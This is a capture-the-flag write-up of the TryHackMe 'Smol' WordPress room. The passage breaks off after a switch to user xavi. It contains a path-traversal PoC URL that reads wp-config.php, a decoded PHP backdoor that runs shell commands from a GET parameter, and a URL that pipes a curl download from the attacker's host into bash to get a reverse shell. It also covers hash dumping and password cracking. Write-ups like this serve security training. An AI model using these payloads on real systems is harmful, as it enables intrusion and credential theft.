# Smol

## Room Info

This room is a WordPress-focused attack chain. The key lesson is that outdated WordPress components and risky plugins can be chained into full compromise. It also highlights why third-party plugin code should be reviewed carefully, because a hidden backdoor can turn a normal plugin into direct command execution.

Practical note: on systems without a GPU (like TryHackMe AttackBox), `john` is often faster and more practical than `hashcat` for this kind of password cracking.

## Writeup

I started the machine, connected to the VPN, and verified connectivity with `ping MACHINE_IP`.

As usual, I ran:
`nmap -sV MACHINE_IP`

Screenshot:


From the scan, HTTP and SSH were open. I first visited:
`http://MACHINE_IP`

Then I realized the target expects a hostname, so I added it in `/etc/hosts`:
`sudo nano /etc/hosts`

Screenshot:


After saving, I opened:
`http://www.smol.thm/`

Screenshot:


I browsed the pages and confirmed it was WordPress, so I switched to enumeration with WPScan. I generated a free API token from `https://wpscan.com/register/` and ran:
`wpscan --url www.smol.thm --api-token YOUR_API`

Screenshot:


The important findings were:
- XML-RPC enabled at `http://www.smol.thm/xmlrpc.php`
- WordPress `6.7.1` (outdated/insecure in this lab context)
- Core vulnerabilities listed by WPScan, including:
`CVE-2025-58674` and `CVE-2025-58246`
- Vulnerable plugin `jsmol2wp` with known issues

At this stage I focused on the plugin path because it gave the most direct exploitation route.

I reviewed the WPScan advisory and tested the PoC against the target by replacing localhost with the room domain:
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`

This gave me useful output.

Screenshot:


After inspecting the response closely, I extracted database credentials.

Screenshot:


I then tried those credentials on the WordPress login page (reachable from the site UI, including the sign-in prompt near the bottom of the post/reply section), and login worked.

Screenshot:
  
Screenshot:


Inside the dashboard, I inspected available content and found a private page with internal notes.

Screenshot:
  
Screenshot:


One useful lead was to inspect `hello.php` plugin source. Using the same vulnerable endpoint pattern, I requested:
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php`

I received encoded data.

Screenshot:


After base64 decoding in CyberChef, I found obfuscated PHP that resolves to:
`if (isset($_GET["cmd"])) { system($_GET["cmd"]); }`

Screenshot:
  
Screenshot:


That confirms a backdoor-style command execution path through a `cmd` GET parameter.

I tested command execution and confirmed the endpoint was reacting.

Screenshot:


For stable shell access, I prepared a reverse shell script (`wow.sh`), hosted it locally, and used the web request to fetch and execute it.

Local server:
`python3 -m http.server 80`

Screenshot:


Trigger URL pattern:
`http://www.smol.thm/wp-admin/profile.php?cmd=curl+http://YOUR_IP/wow.sh|bash`

Listener:
`nc -lvnp 1234`

Reverse shell landed successfully.

Screenshot:


With shell access, I authenticated to MySQL using the recovered credentials:
`mysql -u wpuser -p`

Screenshot:


I enumerated databases/tables and pulled WordPress user hash data from `wordpress -> wpusers`.

Helpful commands:
- `SHOW DATABASES;`
- `USE database_name;`
- `SHOW TABLES;`
- `DESCRIBE table_name;`

Screenshot:


I saved the hashes into `wordpress.txt`, identified format as `phpass`, and cracked with John:
`john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt wordpress.txt`

This recovered Diego's password.

Screenshot:


I switched user:
`su diego`

Screenshot:


Then I moved to Diego's home and got `user.txt`.

Screenshot:


Next objective was root/admin-level access. Diego was not enough (no sudo privileges), so I continued local enumeration under `/home` and checked user directories/permissions.

I found SSH material in `think`'s home.

Screenshot:

I used it to log in:
`ssh think@MACHINE_IP -i id_rsa`

Screenshot:


Then checked groups:
`groups`

`think` had useful group memberships (`dev`, `internal`).

Screenshot:


I needed access to `wordpress.old.zip` under `/home/gege`, so I attempted lateral movement and tested account switching. Switching to `gege` worked without prompting for a password in this environment.

Screenshot:


I tried unzipping `wordpress.old.zip`, but it required a password.

Screenshot:


I continued enumeration and found `/opt/wp_backup.sql`.
The file was large, but it contained useful credential/hash data.

Screenshot:


I extracted relevant hashes into `wordpress.txt` and cracked again with John:
`john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt wordpress.txt`

Eventually I got the required password.

Screenshot:
  
Screenshot:


With that password, I unzipped the backup and reviewed `wp-config.php`, where I found credentials for user `xavi`.

Screenshot:


I switched to `xavi` using the recovered password:
`su xavi`

Screenshot:
